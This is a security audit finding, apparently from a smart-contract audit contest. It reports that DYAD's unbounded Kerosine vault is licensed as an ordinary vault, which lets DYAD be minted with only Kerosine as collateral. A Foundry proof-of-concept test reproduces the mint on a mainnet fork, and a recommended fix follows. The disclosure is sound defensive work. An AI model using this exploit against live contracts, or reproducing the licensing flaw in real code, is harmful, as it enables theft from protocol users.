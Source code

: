 # The Kerosine Vault Is Licensed as a Non-Kerosine Vault

## Impact
DYAD can be minted which is backed only by Kerosine, with zero exogenous collateral.

## Severity
Likelihood: High - There are no preconditions.
Impact: High - Core invariant broken.
Severity: High

## Description
In Deploy.V2.s.sol#L95 we add the unbounded kerosine vault to the vault manager licenser, which allows adding it as a non-kerosene vault in VaultManagerV2.add#L75. VaultManagerV2.getNonKeroseneValue#L259 will take it as a regular vault and VaultManagerV2.getNonKeroseneValue#L262 reports the vault as licensed, so it can be used as a collateral and we pass the check in VaultManagerV2.mintDyad#L166.

## Proof of Concept
Note that we need to fix the issue with the v1 DYAD supply being counted in the unbounded kerosine vault numerator when calculating the kerosine price. We just replace L67 to subtract the v1 DYAD supply, calculated before the test.
```
uint numerator   = tvl - (dyad.totalSupply() - 11074181000000000000000);
```

Insert the following test into `test/fork/v2.t.sol`, and run it on a mainnet fork:

```
  function testMintWithOnlyKerosine_Debug() public {
    // We license the vault manager to be able to mint DYAD
    vm.prank(MAINNET_OWNER);
    Licenser(contracts.vaultLicenser).add(address(contracts.vaultManager));

    DNft dNft = DNft(MAINNET_DNFT);
    
    // We reset the DNft contract to be able to mint free DNfts
    vm.etch(address(MAINNET_DNFT), address(new DNft()).code);
    dNft = DNft(MAINNET_DNFT);

    // We patch the Unbounded Kerosine Vault so that it doesn't count the v1 DYAD
    vm.etch(
      address(contracts.unboundedKerosineVault),
      address(
        new UnboundedKerosineVaultFixed(
          contracts.vaultManager,
          Kerosine(MAINNET_KEROSENE), 
          Dyad    (MAINNET_DYAD),
          contracts.kerosineManager
        )
      ).code
    );

    uint id1 = dNft.mintNft(address(this)); // We will use this one to deposit some weth and give value to kerosine
    uint id2 = dNft.mintNft(address(this)); // We will use this one to mint some kerosine backed DYAD

    // Obtain weth
    vm.prank(MAINNET_WETH); // deal not working for me
    ERC20(MAINNET_WETH).transfer(address(this), 1 ether);

    // Add the weth vault and deposit 1 eth    
    contracts.vaultManager.add(id1, address(contracts.ethVault));
    ERC20(MAINNET_WETH).approve(address(contracts.vaultManager), 1 ether);
    contracts.vaultManager.deposit(id1, address(contracts.ethVault), 1 ether);

    // Move to the next block to pass the flash loan protection
    vm.roll(block.number + 1);

    // Obtain kerosene
    vm.prank(MAINNET_OWNER);
    ERC20(MAINNET_KEROSENE).transfer(address(this), 100_000_000 ether); // This is a huge amount because the surplus collateral is low and the unitary price of kerosine is also low.

    // Add the kerosene vault and deposit 1 kerosene
    contracts.vaultManager.add(id2, address(contracts.unboundedKerosineVault));
    ERC20(MAINNET_KEROSENE).approve(address(contracts.vaultManager), 100_000_000 ether);
    contracts.vaultManager.deposit(id2, address(contracts.unboundedKerosineVault), 100_000_000 ether);

    // Mint dyad
    contracts.vaultManager.mintDyad(id2, 1 ether, address(this));

    // Success!
    assertGt(ERC20(MAINNET_DYAD).balanceOf(address(this)), 0);
  }
```

## Recommendation
Don't add the kerosine vault to the vault manager licenser. Use a separate licenser for kerosine vaults. ALternatively, add an `isLicensedKerosine` function to the licenser.
